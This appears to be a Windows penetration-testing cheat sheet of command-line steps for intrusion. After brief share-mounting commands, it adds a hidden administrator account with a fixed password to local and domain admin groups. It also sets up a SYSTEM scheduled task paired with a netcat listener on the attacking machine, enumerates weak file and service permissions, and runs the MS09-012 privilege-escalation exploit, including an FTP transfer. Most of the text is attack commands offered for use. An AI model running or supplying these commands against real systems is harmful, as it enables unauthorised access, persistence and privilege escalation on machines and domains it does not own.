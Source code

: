 **--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:**  
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."  
**--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:**  
NET USE Z: \\COMPUTER_NAME\SHARE_NAME /PERSISTENT:YES  
**-->**  **UNMOUNT SHARE:**  
NET USE Z: /DELETE  
**-->**  **DELETE A SHARE ENTIRLEY:**  
NET SHARE /DELETE  
  
+  **Find ALL weak file permissions per drive.**  
accesschk.exe -uwqs Users c:*.*  
  
+  **A part of group "Authenticated Users" - you would be surprised if you have a real user.**  
accesschk.exe -uwqs "Authenticated Users" c:*.*  
  
  
+  **Add an Administrator User with all of the goodies.**  
cmd.exe /c net user siren superPassword /add  
cmd.exe /c net localgroup administrators siren /add  
cmd.exe /c net localgroup "Remote Desktop Users" siren /add  
  
+  **Adding a Windows Domain Administrator from the Command Line:**  
cmd.exe /c net user siren superPassword /add  
net localgroup Administrators siren /ADD /DOMAIN  
net localgroup "Remote Desktop Users" siren /ADD /DOMAIN  
net group "Domain Admins" siren /ADD /DOMAIN  
net group "Enterprise Admins" siren /ADD /DOMAIN  
net group "Schema Admins" siren /ADD /DOMAIN  
net group "Group Policy Creator Owners" siren /ADD /DOMAIN  
  
+  **Time and our own  _Scheduled Tasks_.**  
time  
The current time is: 6:41:05.81  
at 06:42 /interactive "C:\Tools\sirenMaint.exe"  
  
+  **Create a Task. Run as System. Every 5 minutes. Path to binary.**  
schtasks /create /ru SYSTEM /sc MINUTE /MO 5 /tn RUNME /tr "\"C:\Tools\sirenMaint.exe\""  
**Attacking Machine:**  
nc -lvp 443  
**Victim Machine:**  
schtasks /RUN /TN "RUNME"  
  
+  **Fun with Accesschk Enumeration!**  
accesschk.exe /accepteula  (_always do this first!!!!!_)  
accesschk.exe -ucqv [service_name]  (requires sysinternals accesschk!)  
accesschk.exe -uwcqv "Authenticated Users" *  (_won't yield anything on Win 8_)  
accesschk.exe -ucqv [service_name]  
  
**#Find ALL weak folder permissions, per drive.**  
accesschk.exe -uwdqs Users c:\  
accesschk.exe -uwdqs "Authenticated Users" c:\  
accesschk.exe -uwqs Users c:*.*  
accesschk.exe -uwqs "Authenticated Users" c:*.*  
  
  
+  **Let me guess, you came in as NT AUTHORITY\NETWORK SERVICE**  **?**  
MS09-012.exe "whoami"  
Initiate Network-Related Transfer  _Again_.  
MS09-012.exe "ftp -v -n -s:ftp.txt" and come back in NT Shell.
